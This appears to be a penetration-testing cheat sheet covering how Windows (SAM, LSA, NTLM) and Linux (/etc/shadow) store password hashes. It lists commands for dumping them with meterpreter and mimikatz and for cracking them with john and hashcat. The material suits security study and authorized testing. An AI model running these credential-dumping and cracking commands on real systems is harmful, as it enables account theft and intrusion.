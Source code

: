 # Windows
- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
	- LM
	-  NTLM
- Windows disables I-M hashing and utilizes NTLM hashing from Windows Vista onwards.
- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
- The SAM database file cannot be copied while the operating system is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.
- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
	- Does not split the hash in to two chunks.
	- Case sensitive.
	- Allows the use of symbols and unicode characters.
## Dumping 
```
[*] On meterpreter
hashdump

load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

[*] For manual use of mimikatz
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
```

## Cracking
```
[!] Hash type depends of the system
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 1000 hashes.txt rockyou.txt -o cracked.txt
```

# Linux
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
- All the encrypted passwords for the users are stored in the shadow file. it can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.
- The shadow file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

	|Value|Hashing Algorithm|
	|---|---|
	|$1|MD5|
	|$2|Blowfish|
	|$5|SHA-256|
	|$6|SHA-512|

## Dumping 
```
[*] On meterpreter
linux/gather/hashdump

[*] On shell
cat /etc/shadow
```

## Cracking
```
[!] Hash type depends of the system
john --format=sha512crypt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -a 0 -m 1800 hashes.txt rockyou.txt -o cracked.txt
```